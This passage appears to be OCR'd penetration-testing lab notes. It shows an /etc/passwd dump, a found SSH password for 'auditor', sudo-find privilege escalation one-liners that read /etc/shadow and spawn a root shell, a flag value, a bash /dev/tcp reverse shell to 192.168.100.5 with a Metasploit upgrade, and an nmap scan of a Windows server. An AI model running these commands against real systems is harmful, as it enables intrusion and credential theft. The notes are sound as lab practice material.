 ``` txt
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
rtkit:x:113:119:RealtimeKit,,,:/proc:/usr/sbin/nologin
xrdp:x:114:122::/run/xrdp:/usr/sbin/nologin
dnsmasq:x:115:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
usbmux:x:116:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
avahi:x:117:123:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin
cups-pk-helper:x:118:124:user for cups-pk-helper service,,,:/home/cups-pk-helper:/usr/sbin/nologin
pulse:x:119:125:PulseAudio daemon,,,:/var/run/pulse:/usr/sbin/nologin
geoclue:x:120:127::/var/lib/geoclue:/usr/sbin/nologin
saned:x:121:129::/var/lib/saned:/usr/sbin/nologin
colord:x:122:130:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
sddm:x:123:131:Simple Desktop Display Manager:/var/lib/sddm:/bin/false
gdm:x:124:132:Gnome Display Manager:/var/lib/gdm3:/bin/false
auditor:x:1001:1001::/home/auditor:/bin/bash
dbadmin:x:1002:1002::/home/dbadmin:/bin/bash
mysql:x:125:133:MySQL Server,,,:/nonexistent:/bin/false
ftp:x:126:137:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
```

### SSH
Found credentials `auditor:qwertyuiop`
+ auditor as SUDO permissions to run `/usr/bin/find` 
+ Can read files via: `find .ssh/authorized_keys -exec cat {} +`
+ Can get etc shadow: `find /etc/shadow -exec cat {} +`
+ Including the flag: `ind root/flag.txt -exec cat {} +` : `5087ae132b97475e9b8343e7d7083cef` 
+ Become root: `find /usr/bin/ -name find -exec /bin/bash -ip \;` 
+ add auditor to sudo group: `usermod -aG sudo`
+ run reverse shell: 
``` shell
bash -i >& /dev/tcp/192.168.100.5/4451 0>&1
```
+ start a handler for it in msf and then upgraded the session with `shell_to_meterpreter`

Check running services based on their port with: `lsof -i TCP:PORTNUMBER`

Linux version: 
```
root@ip-192-168-100-52:/# uname -r
5.13.0-1021-aws
```

## Machine - 192.168.100.55
Hostname: WINSERVER-03
OS: Windows 
Connected to an internal network: 192.168.0.0/24, with it being 192.168.0.50

### Services
``` Shell
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
| http-methods: 
|_  Potentially risky methods: TRACE
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds  Windows Server 2019 Datacenter 17763 microsoft-ds
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=WINSERVER-03
| Not valid before: 2023-07-14T16:24:14
|_Not valid after:  2024-01-13T16:24:14
|_ssl-date: 2023-07-15T16:37:19+00:00; 0s from scanner time.
```